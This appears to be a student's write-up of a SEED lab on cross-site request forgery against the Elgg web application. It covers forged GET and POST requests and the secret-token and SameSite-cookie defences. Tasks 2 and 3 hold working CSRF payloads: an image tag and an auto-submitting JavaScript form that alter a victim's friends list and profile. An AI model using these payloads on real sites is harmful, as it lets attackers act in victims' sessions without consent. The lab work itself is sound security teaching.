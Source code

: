 # Cross-Site Request Forgery (CSRF) Attack Lab
- a CSRF attack involves a victim user, a trusted site, and a malicious site, the victim user holds an active session with a trusted site while visiting a malicious site. The malicious site injects an HTTP request for the trusted site into the victim user session, causing damages
- web application used: `Elgg`
- topics
    - CSRF attack
    - CSRF countermeasures: Secret token and Same-site cookie
    - JavaScript and Ajax

## Lab Setup
- the Elgg container (`10.9.0.5 www.seed-server.com`)
- the attacker container (`10.9.0.105 www.attacker32.com`)
- DNS configuration
    ```
    10.9.0.5 www.seed-server.com
    10.9.0.5 www.example32.com
    10.9.0.105 www.attacker32.com
    ```

## Task 1: Observing HTTP Request
- use HTTP Header Live on Firefox

## Task 2: CSRF Attack using GET Request
- use Alice's and Samy's account, use CSRF to make Alice add Samy to her Elgg friend list
- login as Samy, add Charlie as friend, use HTTP Header Live to see the request
    - URL (duplicated parameters are removed) `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1707056081&__elgg_token=-RraUFTlunG52v081kwsbw`
- requirement: not use JS code, the attack should succeed as soon as Alice visits the page
- `__elgg_ts` and `__elgg_token` are actually used to defeat CSRF, in this lab, they are disabled
- so, the link to add Samy to friend list is `http://www.seed-server.com/action/friends/add?friend=59`, `59` is the id of Samy, we can figure this out by use another account to add Samy and inspect the request URL
- when Alice clicks a link from Samy, she visits `www.attacker32.com`, to trigger a GET request to Elgg, use an image tag `<img>` in `www.attacker32.com`, add the following content to `Labsetup/attacker/addfriend.html`
    - `<img src="http://www.seed-server.com/action/friends/add?friend=59" />`
- when Alice logged into Elgg, and visits `www.attacker32.com/addfriend.html`, it triggers a GET request to Elgg, and add Samy to Alice's friend list

## Task 3: CSRF Attack using POST Request
- use CSRF to edit Alice's profile to `Samy is my Hero`
- inspect the HTTP request when clicking save on the profile edit page, it is a POST request, the data in request body is `name=Samy$description=<p>123456</p>&guid=59` (I removed some parameters that is not used), the URL is `http://seed-server.com/samy/edit`
- by adding Alice to friend list, we can get Alice's guid from the request URL, its 56, so we need to construct a POST request with data `name=Alice$description=<p>Samy is my Hero</p>&guid=56`, and the URL should be `http://seed-server.com/action/profile/edit`
- we can set these values in the given `editprofile.html`, in this file it modifies `Brief description`, instead of `About Me`
    ```
    <script type="text/javascript">
    function forge_post() {
        var fields;

        fields += "<input type='hidden' name='name' value='Alice'>";
        fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
        fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
        fields += "<input type='hidden' name='guid' value='56'>";

        var p = document.createElement("form");
        p.action = "http://www.seed-server.com/action/profile/edit";
        p.innerHTML = fields;
        p.method = "post";

        document.body.appendChild(p);
        p.submit();
    }
    window.onload = function() { forge_post();}
    </script>
    ```

- Question: what if we want to modify the profile of all users who visits the malicious site
    - we need to dynamically get the name and guid of the victims
    - use `<iframe src="http://www.seed-server.com">` to load Elgg inside the attacker's site, if we success, we can put the script inside the iframe, and use `elgg.session.user.name` and `elgg.session.user.guid` to get user name and guid
    - however, the Elgg website cannot be loaded in the iframe, the error information is `"To protect your security, www.seed-server.com will not allow Firefox to display the page if another site has embedded it. To see this page, you need to open it in a new window"`, there might be a countermeasure implemented in the Elgg application

## Defense
- Initially, most applications put a secret token in their page, and by checking whether the token is present in the request or not, they can tell whether a request is a same-site request or a cross-site request, this is called `secret token` approach. More recently, most browsers have implemented a mechanism called `SameSite cookie`, which is intended to simplify the implementation of CSRF countermeasures

## Task 4: Enabling Elgg's Countermeasures
- web applications can embed a secret token in their pages, and all requests coming from these pages must carry this token, or they will be considered as a cross-site request, and will not have the same privilege as the same-site requests. Attacker will not be able to get this token, so their requests can be identified as cross-site requests
- in Elgg, `__elgg_token` is the secret tokens, `__elgg_ts` is a timestamp, they will be validated before processing a request
    ```
    <input type="hidden" name="__elgg_ts" value="" />
    <input type="hidden" name="__elgg_token" value="" />
    ```
    ```
    $ts = time();
    $token = elgg()->csrf->generateActionToken($ts);
    echo elgg_view('input/hidden', ['name' => '__elgg_token', 'value' => $token]);
    echo elgg_view('input/hidden', ['name' => '__elgg_ts', 'value' => $ts]);
    ```
- Elgg's security token is a md5 message digest of the site secret value (retrieved from database), timestamp, user session ID and random generated session string, the code for secret token generation in Elgg:
    ```
    public function generateActionToken($timestamp, $session_token='') {
        if(!$session_token) {
            $session_token = $this->session->get('__elgg_session');
            if(!$session_token) {
                return false;
            }
        }
        return $this->hmac
                    ->getHmac([(int) $timestamp, $session_token], 'md5')
                    ->getToken();
    }
    ```
- secret token validation: generate a md5 digest for `__elgg_ts` in the request and the session id, compare it to the `__elgg_token` in the request. Besides, check the `__elgg_ts`, ensure the token is not expired (default timeout is `2` hours)

- enable this countermeasure, and login as Alice, then visit the attacker's website, we can get an error information: "Form is missing __token or __ts fields"
    - add these 2 fields in the attacker's page, and put some random value, the attack cannot succeed, because the request cannot pass the validation
    - if we go to Alice's profile in Elgg, inspect the page elements and find the value of `__elgg_ts` and `__elgg_token`, put them into the attacker's page, then visit this page, the attack can succeed
    - in a real attack, the attacker cannot get these value, because the token is calculated from Alice's session id with a timestamp, and will only be put in the page when logging in as Alice, when visiting the attacker's page, the attacker cannot know the value of the token, and the corresponding timestamp. However, if the attacker can put a iframe (to load the Elgg's page) in the malicious page, and run a script inside, the script can get the value of `__elgg_ts` and `__elgg_token` inside the iframe, this is disabled by Elgg application, as mentioned in Task `3`

## Task 5: Experimenting with the SameSite Cookie Method
- most browsers have implemented a mechanism called SameSite cookie
- when sending out requests, browsers will check this property, and decide whether to attach the cookie in a cross-site request, a web application can set a cookie as SameSite if it does not want the cookie to be attched to cross-site requests. For example, they can mark the session ID cookie as SameSite, so no cross-site request can use the session ID, and will therefore not be able to launch CSRF attacks
- visit `10.9.0.5 www.example32.com`, 3 cookies will be set, `cookie-normal`, `cookie-lax`, and `cookie-strict`, there are 2 links on this page, link A points to a test page on `www.example32.com`, while link B points to a test page on `www.attacker32.com`, in each test page, we can send a GET or POST request back to `www.example32.com`, and we can see which cookie will be sent by the browser
    - link A
        - GET: `cookie-normal`, `cookie-lax`, `cookie-strict`
        - POST: `cookie-normal`, `cookie-lax`, `cookie-strict`
    - link B
        - GET: `cookie-normal`, `cookie-lax`
        - POST: `cookie-normal`
- conclusion: for SameCookie, there are 2 types, `Lax` and `Strict`. Cross-site request will not carry `Strict` cookies. Cross-site POST request will not carry `Lax` cookies, but cross-site GET request can carry `Lax` cookies
- in a CSRF attack, the victim visits the attacker's site, and triggers a request to the Elgg website, if the session ID cookie is marked as SameSite cookie, if it is `Strict`, the session id cookie will not be sent by the browser, and the request won't pass the validation
